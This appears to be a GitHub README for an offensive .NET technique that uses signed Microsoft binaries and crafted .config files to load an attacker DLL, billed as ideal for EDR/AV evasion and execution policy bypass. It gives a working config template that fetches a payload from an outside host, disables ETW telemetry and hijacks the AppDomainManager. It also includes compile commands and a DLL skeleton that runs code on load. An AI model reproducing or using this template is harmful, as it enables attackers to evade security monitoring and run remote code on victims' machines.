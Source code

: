 # .NetConfigLoader

List of .Net application signed by Microsoft that can be used to load a dll via a .config file. Ideal for EDR/AV evasion and execution policy bypass.

```
<configuration>
   <runtime>
      <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
         <dependentAssembly>
            <assemblyIdentity name="DLLNAME" publicKeyToken="deadbeef1337" culture="neutral" />
            <codeBase version="0.0.0.0" href="https://mr.un1k0d3r.world/payload"/>
         </dependentAssembly>
      </assemblyBinding>
      <etwEnable enabled="false" />
      <appDomainManagerAssembly value="DLLNAME, Version=0.0.0.0, Culture=neutral, PublicKeyToken=deadbeef1337" />
      <appDomainManagerType value="CLASSNAME" />
   </runtime>
</configuration>
```
# Compiling the DLL

The DLL needs to have strong name

`sn.exe -k key.snk`

`csc.exe /t:library /keyfile:key.snk /out:my.dll Program.cs`

Getting the strong name information for the .config file

`PS> [System.Reflection.AssemblyName]::GetAssemblyName("C:\full\path\to\dll\my.dll").FullName`

# The DLL Structure

```
using System;
 
public sealed class CLASSNAME : AppDomainManager
{
    
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {  
         
        Program.Main(null);
          
        return;
    }
}
```

